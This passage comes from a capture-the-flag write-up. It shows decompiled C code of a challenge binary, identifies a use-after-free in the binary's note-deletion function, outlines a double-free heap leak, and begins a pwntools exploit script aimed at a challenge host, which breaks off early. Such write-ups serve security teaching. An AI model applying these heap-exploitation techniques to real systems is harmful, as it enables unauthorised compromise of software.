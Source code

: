 ```c
  lVar1 = get_int2(0x18);
  if (lVar1 != secret) {
    puts("bye~");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  puts("Congratulations!");
  puts("Please choose your gender. [1:boy] [2:girl]");
  __isoc99_scanf(&DAT_555555555621,&local_24);
  if (local_24 == 1) {
    puts("You are a clever boy!");
  }
  else {
    if (local_24 == 2) {
      puts("You are a clever girl!");
    }
    else {
      puts("You are a ???");
    }
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

Now that we have reversed the entire binary , let's get started with hijacking the control flow :).

## EXPLOIT DEVELOPMENT

Well , the bug is clearly evident in the **Delete Note** function which is the infamous **Use After Free**. Hence Heap Leak should be trivial.

### Heap Leak

So we can free the header chunk only and probably double free it too. Hmm, sounds cool for getting our heap leak.

```py
from pwn import *
import sys

HOST = '172.35.29.41'
PORT = 9999

if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./pwn',env = {"LD_PRELOAD" : "./libc.so.6"})

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)

def add(size,note):
    io.sendlineafter("Choice >>","1")
```